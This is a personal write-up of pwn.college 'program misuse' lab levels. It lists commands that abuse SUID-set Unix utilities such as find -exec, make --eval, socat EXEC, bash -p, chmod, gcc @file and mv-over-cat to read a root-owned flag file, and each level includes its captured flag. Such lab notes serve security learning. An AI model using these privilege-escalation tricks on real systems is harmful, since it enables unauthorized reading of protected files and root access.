

Privilege escalation
- Run an suid binary
- suid: execute with the eUID of the file owner rather than the parent process
- sgid: execute with the eGID of file owner rather than parent process
- sticky: used for shared directories to limit file removal to file owners
babysuid
Programs that let you directly read the flag by setting the suid
Archives
22 cpio
cpio: copy files to and from archives
-R Set the ownership of all files created to the specified USER and/or GROUP
--to-std-out
When creating archives during copy out with -o, If you don’t pass an archive, it prints out the output to standard output
echo flag | cpio -ov
flag
�q�w��d��9flagpwn.college{4oCrlSizeUID4Sfh1W5ARqDaR3L.0FN2EDL0MDMwEzW}
�q
TRAILER!!!1 block
Read flags by making them execute other commands
23 genisoimage
Generate ISO9660/Joilet/HFS hybfrid filesystems
- https://gtfobins.github.io/gtfobins/genisoimage/
- https://linux.die.net/man/1/genisoimage
- https://www.apt-browse.org/browse/debian/jessie/main/all/cdrkit-doc/9:1.1.11-3/file/usr/share/doc/cdrkit-doc/genisoimage/README.sort
-sort FILE : Sort file content locations according to rules in FILE
-sortsort_file
Sort file locations on the media. Sorting is controlled by a file that contains pairs of filenames and sorting offset weighting. If the weighting is higher, the file will be located closer to the beginning of the media, if the weighting is lower, the file will be located closer to the end of the media. There must be only one space or tabs character between the filename and the weight and the weight must be the last characters on a line. The filename is taken to include all the characters up to, but not including the last space or tab character on a line. This is to allow for space characters to be in, or at the end of a filename. This option does not sort the order of the filenames that appear in the ISO9660 directory. It sorts the order in which the file data is written to the CD image, which is useful in order to optimize the data layout on a CD. See README.sort for more details.
hacker@program-misuse-level-23:/$ genisoimage -sort flag
genisoimage: Incorrect sort file format
pwn.college{gHWhhc5I1411-6NH28ekb-cUwQq.0VN2EDL0MDMwEzW}
The sort_file contains two columns of filename and weight. Since the flag didn’t have the proper formatting, it printed it out in an error message
24 env
Usage: env [OPTION]… [-] [NAME=VALUE]… [COMMAND [ARG]…]
env cat flag
pwn.college{QjA_o9dSRxJZr-qs3N6gL3Hk02a.0lN2EDL0MDMwEzW}
25 find
- https://www.baeldung.com/linux/find-exec-command
Find the file and then use
execto run other commands on the file
find flag -exec cat {} \;
pwn.college{QmQSDWK93OXRzLdFcc41GFD0sG0.01N2EDL0MDMwEzW}
26 make
- https://gtfobins.github.io/gtfobins/make/
- https://stackoverflow.com/questions/10435490/how-eval-function-can-be-used-in-makefile
- https://make.mad-scientist.net/the-eval-function/
Interesting.
evalwasn’t stated in the manual. It allows you to define new makefile constructs. The argument to the eval function is expanded, then the results of that expansion are parsed as makefile syntax.
make -s --eval=$'x:\n\t-'"cat flag"
pwn.college{sBoIeH0EhwZzqExS44fBJHf3Zmr.0FO2EDL0MDMwEzW}
Disguising itself as makefile syntax to fool make to run the command.
x variable
: separates variable from command
\n\t syntax (enter and indent)
cat flag command
x:
cat flag
eval notes
Metaprogramming: ability of a program to generate other programs, or even modify itself while running
eval allows you to ask make to parse text that you provide (as the argument to the function) as if it were a makefile
27 nice
nice -n 20 cat flag
pwn.college{UE17dBTj7bVqcsbAeMMcBtg1brP.0VO2EDL0MDMwEzW}
28 timeout
timeout --preserve-status 0 cat flag
pwn.college{k04-8k9lxNNXbW1dYdJg6wLbvOJ.0FM3EDL0MDMwEzW}
29 stdbuf
stdbuf -i 0 cat flag
pwn.college{QrX-myFr7VDaTJaUpMTWfOj9ac3.0VM3EDL0MDMwEzW}
30 setarch
setarch -R cat flag
pwn.college{0F9Xi_ucPd03t6kU9Z3ukyUjTzC.0lM3EDL0MDMwEzW}
31 watch
watch -x cat flag
32 socat
nc -l 9999
socat EXEC:"cat flag" TCP4:localhost:9999
pwn.college{Y-n7znhkzgIwpeVMFQVbmg7rUiy.0FN3EDL0MDMwEzW}
Requires some light programming to read the flag.!
33 whiptail
whiptail --textbox --scrolltext flag 10 50

34 awk
awk '{print $1}' flag
pwn.college{E9rO0UoMJAUFwehaimlPo66QYPH.0lN3EDL0MDMwEzW}
35 sed
print first line of file
sed -n '1p' flag
pwn.college{8Etg6VfAzIv4QmA8cRGGs-hKba0.01N3EDL0MDMwEzW}
36 ed
ed flag
?
p
pwn.college{M_MFwqQw_lb6fPxx3Cwo7s1cy1B.0FO3EDL0MDMwEzW}
Lets you get the flag by doing tricks with permissions!
37 chown
chown hacker flag
cat flag
pwn.college{ox8X8D95ao8YTYZU1OhMovgkSlF.0VO3EDL0MDMwEzW}
38 chmod
chmod 777 flag
cat flag
pwn.college{o_KtmcukknMa17Y7NaT_A_Vx0Jx.0FM4EDL0MDMwEzW}
39 cp
cp --no-preserve=mode,ownership flag boink
cat boink
pwn.college{cfFDqccRpUieZ-8IrmE3Bi_PIVX.0VM4EDL0MDMwEzW}
40 mv
Wow this was a creative solution: https://hackmd.io/@jvX0z8tMSVy82TKMOd78zw/B1V06QEVo
Had to read the writeup for it.
So essentially I was poking around, trying to see if I could move files without preserving the permissions of the original file, but I wasn’t getting any results. I eventually read some writeups. This is such a fascinating challenge – rename cat to mv , run the challenge binary again to set the suid to mv which is cat in disguise, then read the flag
mv /usr/bin/cat /usr/bin/mv
./challenge/babysuid_level40
mv flag
pwn.college{gRrAxec-vA-hdRN8zrtYieTf24v.0lM4EDL0MDMwEzW}
Lets you read the flag because they let you program anything!
41 perl
https://www.geeksforgeeks.org/perl-opening-and-reading-a-file/
- Note had to use single quotes instead of double quotes
perl -e 'open(fh, "flag") or die; $firstline = <fh>; print "$firstline";'
pwn.college{4omGoc2usqOLQHfIPTlErXr7ZV4.01M4EDL0MDMwEzW}
42 python
Yay python!
-c to compile
python -c 'f=open("flag", "r"); print(f.read())'
pwn.college{woYeozdqCZlaPEQL5OHMOGhirJN.0FN4EDL0MDMwEzW}
43 ruby
TF=$(mktemp)
echo 'f=File.open("flag"); r = f.read; puts(r) ' > $TF
ruby $TF
pwn.college{sICaLJYVdT_rY74pyxtbb1r48tL.0VN4EDL0MDMwEzW}
44 bash
bash -p flag
flag: line 1: pwn.college{wzjJgYq8MugKvbB17in-j2-Bv0h.0lN4EDL0MDMwEzW}: command not found
-p privileged mode. Tells bash to not set up an environment and just run it with what you’re already using. Since setuid is set, it’s treated as root.
(aka pretty please)
45 date
date --file=flag
date: invalid date 'pwn.college{E57sz6e0gPPGZiyXahtDTw-AT0L.01N4EDL0MDMwEzW}'
Just straight up wasn’t designed to let you read files!
46 dmesg
dmesg -F flag
[ 0.000000] pwn.college{I-e20m2Z1DlzHzNGmBdUcMzEPHU.0FO4EDL0MDMwEzW}
47 wc
wc --files0-from=flag
wc: 'pwn.college{oZ5vCz7SrQA_qbxZeCexxzmR-EQ.0VO4EDL0MDMwEzW}'$'\n': No such file or directory
48 gcc
gcc @flag
gcc: error: pwn.college{gwjUmod94a_2j-jp8aIXUoxgIiW.0FM5EDL0MDMwEzW}: No such file or directory
gcc: fatal error: no input files
compilation terminated.
49 as
as @flag
Assembler messages:
Error: can't open pwn.college{smeuseqsnW3x76HLH23ythuG_6V.0VM5EDL0MDMwEzW} for reading: No such file or directory